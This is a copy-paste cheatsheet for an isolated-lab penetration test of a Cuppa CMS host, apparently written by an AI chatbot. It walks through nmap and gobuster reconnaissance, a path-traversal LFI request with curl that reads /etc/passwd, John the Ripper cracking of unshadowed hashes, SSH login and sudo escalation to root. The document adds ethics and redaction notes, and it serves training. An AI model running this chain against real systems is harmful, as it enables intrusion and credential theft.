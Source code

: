 # Commands & Notes — Quick Cheatsheet

> Quick, copy‑paste friendly commands and short explanations for reproducing the Alpha Attack lab steps. Use these only in an isolated lab environment. Every command below includes a short comment describing its purpose.

---

## Environment Setup

```bash
# create project directories for outputs and screenshots
mkdir -p AlphaAttack-Cuppa-LFI/{outputs,nmap,zap,john,screenshots,writeup}
# purpose: organize artifacts so outputs are collected and easy to redact later
```

---

## Network Reconnaissance (nmap / Zenmap)

```bash
# ping sweep to discover live hosts in the lab network
nmap -sn 192.168.56.0/24 -oA outputs/nmap/ping_sweep
# purpose: find live IPs quickly

# aggressive scan (service/version detection, default scripts, traceroute)
nmap -A -sV -p- 192.168.56.101 -oA outputs/nmap/initial_scan
# purpose: enumerate open ports and services for attack surface mapping
```

Notes:

* Use Zenmap GUI for visually examining scan results if preferred.
* Keep raw nmap outputs in `outputs/nmap/` for traceability and later redaction.

---

## Web Discovery (forced browse / gobuster)

```bash
# forced browse with common wordlist to find hidden directories
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt -t 50 -o outputs/gobuster/webenum.txt
# purpose: discover admin panels or hidden endpoints

# optional: a heavier wordlist for deeper discovery
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o outputs/gobuster/webenum-heavy.txt
# purpose: increase coverage at the cost of runtime
```

---

## Proxying & Interception (ZAP + FoxyProxy)

Instructions:

1. Install and run OWASP ZAP.
2. Configure FoxyProxy in your browser to point to ZAP's proxy (default `127.0.0.1:8080`).
3. Browse the target site to populate ZAP's history, then use ZAP's Forced Browse and Request Editor.

Notes:

* Export ZAP session: `File → Export Session` and save to `outputs/zap/session.session`.
* Purpose: capture requests/responses and edit payloads for LFI testing.

---

## LFI Testing (confirm file inclusion)

```bash
# test LFI with curl (adjust traversal depth as needed)
curl -s 'http://192.168.56.101/alertConfigField.php?urlConfig=../../../../../../etc/passwd' -o outputs/exfiltrated/etc_passwd.txt
# purpose: confirm ability to read /etc/passwd via LFI and save output

# alternative: request via browser ZAP and use the Request Editor to iterate safely
# purpose: use ZAP to keep history and modify requests interactively
```

Security note: Never run commands like these against systems you don't own or have explicit permission to test.

---

## Preparing for Password Cracking

```bash
# ensure you have a local copy of rockyou wordlist (Debian/Ubuntu path shown)
# purpose: provide a common wordlist for John
ls /usr/share/wordlists/rockyou.txt || echo "rockyou not found, install wordlists package"

# prepare the 'unshadow' file: combine passwd and shadow entries if needed
# (example shows the command if you have both files locally)
# purpose: John expects a combined format for cracking
unshadow outputs/exfiltrated/etc_passwd.txt outputs/exfiltrated/etc_shadow.txt > outputs/john/unshadow.txt
```

---

## Password Cracking (John the Ripper)

```bash
# run John with sha512crypt format using rockyou
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt outputs/john/unshadow.txt --pot=outputs/john/john.pot
# purpose: attempt to crack hashes and store results in a potfile

# show cracked passwords
john --show outputs/john/unshadow.txt --pot=outputs/john/john.pot > outputs/john/john-show.txt
# purpose: produce a readable output file with cracked credentials
```

Notes:

* If John fails, try `--rules` or other wordlists; consider `hashcat` for GPU acceleration in a lab.
* Never commit `john.pot` or `john-show.txt` to a public repo with real data.

---

## SSH Access & Privilege Enumeration

```bash
# SSH into target using recovered credentials
ssh w1r3s@192.168.56.101
# purpose: obtain an interactive shell for post-exploitation

# on target: check sudo privileges
sudo -l
# purpose: enumerate allowed sudo commands and possible NOPASSWD entries

# escalate if allowed
sudo -i
# purpose: spawn an interactive root shell if permitted
```

Post‑exploit note: document each command and capture terminal output (e.g., `script` command) and save to `outputs/`.

---

## Evidence Collection & Redaction

```bash
# collect outputs into a single archive for review (before redaction)
tar -czvf outputs/artifacts-raw.tar.gz outputs/
# purpose: snapshot raw artifacts for offline redaction

# redact sensitive strings (example: replace literal IPs)
# WARNING: this is a naive example; use careful regex and manual review before publishing
sed -i 's/192.168.56.101/REDACTED_IP/g' outputs/exfiltrated/* outputs/john/*
# purpose: basic automated masking — always manually verify removal of secrets
```

Redaction checklist (manual):

* Remove or mask real IPs, hostnames, usernames, and passwords.
* Remove SSH private keys, PEM files, or any credentials.
* Replace screenshots that expose identifiable info or redact them with an image editor.

---

## Helpful Utilities & Tips

* Use `script -q -f outputs/sessions/ssh-session-$(date +%s).log` to record interactive shells (keystroke-level logs).
* Use `jq` to pretty print JSON outputs from tools.
* Keep a log of timestamps for each major action (e.g., `echo "T+01:30 — LFI confirmed" >> outputs/notes/timeline.txt`).

---
## Final Reminder (Ethics & Publication)

* Only use these commands within the authorized lab environment.
* Sanitize all outputs before publishing.
* When in doubt about whether something is sensitive, remove it or consult the team lead.

---

If you want, I can now:

* Convert this cheatsheet into a downloadable `commands_and_notes.md` file in the repo (done) and also produce a `redact.sh` script that attempts common redactions automatically.
* Or generate a one‑page PDF cheatsheet for printing.

Which of these would you like next?

